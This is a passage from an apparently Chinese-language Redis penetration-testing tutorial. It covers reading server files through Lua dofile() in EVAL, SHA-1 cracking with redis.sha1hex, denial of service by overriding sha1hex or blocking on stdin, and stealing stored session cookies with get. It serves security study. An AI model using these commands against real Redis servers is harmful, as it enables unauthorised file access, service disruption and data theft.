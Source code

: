 ```
EVAL “dofile('/etc/environment');return(PATH);” 0       
+OK     /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
EVAL “dofile('/home/ubuntu/.selected_editor');return(SELECTED_EDITOR);” 0
+OK /usr/bin/nano 
```

## 0x07 暴力破解

* * *

Redis 提供一个 redis.sha1hex()函数，可以被 Lua 脚本调用，所以还可以通过 Redis 服务器进行 SHA-1 的破解，相关代码在 adam_baldwin 的 GitHub 上(https://github.com/evilpacket/redis-sha-crack)，相关原理的描述在
(http://fr.slideshare.net/evilpacket/ev1lsha-misadventures-in-the-land-of-lua 需要翻墙访问)

## 0x08 Dos

* * *

这里有很多 Dos Redis 的方法，例如通过调用 shutdown 这个命令删除数据。

这里有更加有趣的两个例子：

1)在 Redis 的控制端，调用 dofile()不加任何参数，将会从标准输入读取数据，并把读取的数据认为是 Lua 脚本。这个时候服务器依旧在运行，但是不会去处理新的连接，直到在控制端读取到”^D”(或者重启)。

2)Sha1hex()函数可以被覆盖(在任何一个客户端都可以实现这个效果)。下面展示一个返回固定值的 sha1hex()函数
Lua 脚本：

```
print(redis.sha1hex('secret'))
function redis.sha1hex (x)
   print('4242424242424242424242424242424242424242') 
end
print(redis.sha1hex('secret')) 
```

在 Redis 的控制端上

```
# First run
e5e9fa1ba31ecd1ae84f75caaa474f3a663f05f4
4242424242424242424242424242424242424242

# Next runs
4242424242424242424242424242424242424242
4242424242424242424242424242424242424242 
```

## 0x09 数据窃取

* * *

如果 Redis 服务器存储一些有趣的数据(像 session cookie 或商业数据)，你可以通过 get 枚举键值，获取数据。

## 0x0A 加密
